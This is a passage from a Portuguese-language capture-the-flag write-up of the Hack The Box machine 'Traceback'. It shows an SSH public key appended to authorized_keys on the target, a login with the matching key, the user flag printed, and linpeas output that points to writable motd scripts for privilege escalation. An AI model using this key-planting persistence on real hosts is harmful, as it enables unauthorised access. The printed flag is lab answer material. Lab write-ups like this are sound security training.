 > Pegando chave pública e colocando em authorized_keys

```bash
sysadmin@traceback:~/.ssh$ echo "Conteudo TRACEBACK.PUB" >> authorized_keys
```

> Mudando permissão da key e pegando shell ssh

```bash
┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/traceback]
└─$ chmod 600 traceback   

┌──(kali㉿kali)-[~/…/hackthebox/machines/to-do/traceback]
└─$ ssh sysadmin@10.129.27.174 -i traceback
The authenticity of host '10.129.27.174 (10.129.27.174)' can't be established.
ED25519 key fingerprint is SHA256:t2eqwvH1bBfzEerEaGcY/lX/lrLq/rpBznQqxrTiVfM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:10: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.27.174' (ED25519) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$
```

> User Flag

```bash
621ef52e85f14991c197759a9fae519b
```

## Privilege Escalation

    Para fazer a enumeração local, podemos usar o script linpeas e ver o que ele nos traz.

    Depois de rodar, podemos ver um ponto interessante que pode ser usado para o privesc.

```bash
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                                                                 
  Group sysadmin:                                                                                                                                                                            
/etc/update-motd.d/50-motd-news                                                                                                                                                              
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/webadmin/note.txt
```
